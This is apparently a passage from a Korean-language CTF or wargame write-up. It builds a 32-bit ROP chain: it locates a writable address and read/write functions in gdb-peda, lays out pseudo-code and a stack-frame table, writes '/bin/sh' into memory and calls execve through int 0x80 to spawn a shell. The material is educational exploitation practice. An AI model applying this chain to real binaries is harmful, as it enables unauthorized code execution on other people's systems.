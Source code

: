 ```python
writable = 0x080efd90
```

`read`와 `write`도 gdb에서 찾았다

```bash
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0x80580d0 <read>
gdb-peda$ p write
$2 = {<text variable, no debug info>} 0x8058140 <write>
gdb-peda$ 
```
필요한 내용은 모두 얻었다. ROP 코드를 작성해보자

```c
read(0, writable, 8);
write(1, writable,12); //메모리에 잘 들어갔는지 확인
__asm {					//writable+10 주소에 writable주소를 저장
	mov ecx, writable+0x10	
	mov eax, writable
	mov dword [ecx], eax
	ret
}
__asm {						//execve("/bin/sh", &"/bin/sh", NULL);
	mov eax,0xb
	mov ebx, writable
	mov ecx, writable + 0x10
	mov edx, 0x00
	int 0x80
}
```

스택 프레임을 작성해보면 아래와 같다

Stack | Explanation
---- | ----
read | ret <-- esp
pppr | 
0 | 
writable | 
8 | 
write | ret of read
1 |
writable |
12 | 
pop ecx; ret | ret of write
writable + 0x10 | ecx
pop eax; ret | 
writable | eax
mov [ecx], eax | 
pop eax; ret | 
0xb | eax
pop ebx; ret | 
writable | ebx
pop ecx; ret | 
writable+0x10 | ecx
pop edx; ret |
0x00 | edx
int 0x80 |
